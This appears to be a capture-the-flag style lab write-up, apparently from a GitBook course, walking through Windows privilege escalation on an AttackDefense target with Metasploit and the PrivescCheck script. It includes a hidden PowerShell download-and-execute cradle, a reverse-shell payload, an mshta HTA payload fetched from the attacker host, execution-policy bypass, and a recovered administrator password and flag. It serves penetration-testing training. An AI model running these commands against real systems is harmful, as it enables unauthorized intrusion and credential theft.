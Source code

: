 # 🔬Windows Privilege Escalation

> 🔬 [Windows: PrivescCheck](https://attackdefense.com/challengedetailsnoauth?cid=2404)
>
> * Target IP: `10.0.25.167`
> * Usage of the [**PrivescCheck.ps1**](https://github.com/itm4n/PrivescCheck) **script**
>   * _already present on the Victim Machine_

## Enumeration & Exploitation <a href="#enumeration-and-exploitation" id="enumeration-and-exploitation"></a>

```bash
nmap -sV 10.0.25.167
    PORT     STATE SERVICE       VERSION
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 10.0.25.167

search web_delivery
use exploit/multi/script/web_delivery
info
# Description:
#   This module quickly fires up a web server that serves a payload. The 
#   provided command which will allow for a payload to download and 
#   execute.
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
exploit
```

* Copy the PowerShell code and run it on the target machine using `cmd`

```
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\zJgQatAv.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.38.2:8080/OcPDNDcyu', $z); invoke-item $z
```

<figure><img src="../../../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

* Back to the Attacker machine, _Command shell session opened_

<figure><img src="../../../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

```bash
sessions 1
whoami
# Unprivileged user "student"
```

<figure><img src="../../../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

```bash
# Upgrade to a Meterpreter session
background
search shell_to
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set SESSION 1
show advanced
set WIN_TRANSFER VBS
options
# check the LPORT is not in conflict with the Session 1
run
sessions 2
```

<figure><img src="../../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

```bash
ps
migrate 1032
getprivs
```

<figure><img src="../../../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

```bash
cd C:\\Users\\student\\Desktop\\PrivescCheck
shell
dir
```

* Run [**`PrivescCheck`**](https://github.com/itm4n/PrivescCheck)

```bash
# Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

```bash
exit
meterpreter > download PrivescCheck_ATTACKDEFENSE.txt

root@attackdefense:~# featherpad PrivescCheck_ATTACKDEFENSE.txt
```

<figure><img src="../../../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

> 📌 `administrator`:`hello_123321`

### Administrator Login <a href="#administrator-login" id="administrator-login"></a>

* Use the `administrator` user to run a **privileged `cmd`**, trying `SMB` legitimate authentication



<figure><img src="../../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

* This can be done with the `exploit/windows/smb/psexec` Metasploit module too.

{% hint style="success" %}
**Flag:** `2b070a650a92129c2462deae7707b0c5`
{% endhint %}

## Second Method

* Run `PrivescCheck.ps1` script on target machine

```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

<figure><img src="../../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

```bash
runas.exe /user:administrator cmd
```

<figure><img src="../../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

* Run `msfconsole` in attacker machine

```bash
msfconsole -q
use exploit/windows/misc/hta_server
exploit
# “This module hosts an HTML Application (HTA) that when opened will run a payload via
# Powershell..”
```

* Copy the generated payload i.e `“http://10.10.38.2:8080/jxEyD3w.hta”` and run it on cmd.exe with mshta command to gain the meterpreter shell
  * Execute the payload on the target machine with cmd.exe.

```bash
mshta.exe http://10.10.38.2:8080/jxEyD3w.hta
# This shall spawn a meterpreter session on target machine powershell
```
